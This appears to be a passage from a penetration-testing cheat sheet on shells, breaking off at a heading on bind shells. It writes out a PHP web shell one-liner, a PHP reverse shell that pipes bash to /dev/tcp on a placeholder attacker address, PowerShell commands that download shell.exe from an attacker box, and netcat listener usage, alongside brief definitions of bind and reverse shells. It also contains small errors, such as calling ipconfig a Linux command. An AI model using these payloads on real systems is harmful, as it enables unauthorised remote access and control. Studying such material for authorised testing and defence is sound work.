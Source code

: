php
```php
file "<?php system($_GET['cmd']);?>"
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/ip/port 0>&1'");?>"
```

## Windows 

[windows php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)


# Shells 101

A shell is command line or grapical user interface of a system, the outermost layer to interact with it.

Quick useful list of linux networking commands help
```bash
ipconfig # legacy ip
ip 
systemctl <start/stop> <service>
wget http://
curl http://
```

Quick useful list of windows networking commands help

```powershell
powershell -c "Invoke-WebRequest -Uri http://$attackbox:$port/shell.exe" -outfile shell.exe
# or with powershell:
(new-object system.net.webclient).downloadfile("http://$attackbox:$port/shell.exe", "destination")
```

## Bind and Reverse Shells Defined:

Bind DEFINE: opposite to a reverse shell. The listener is on the target machine.

Reverse DEFINE: opposite to a bind shell. The listener is on the attacker machine.


## Netcat

### Connecting
-n skips dns name resolution
-v verbose

```bash
nc -nv <IP> 
```
### Listening
A breakdown the command below `-l` creates listener, `-p` listen port, `-n` skips dns name resolution and `-v`  adds verbosity:
```bash
nc -lvnp <IP> <PORT>
```
### Bind shell

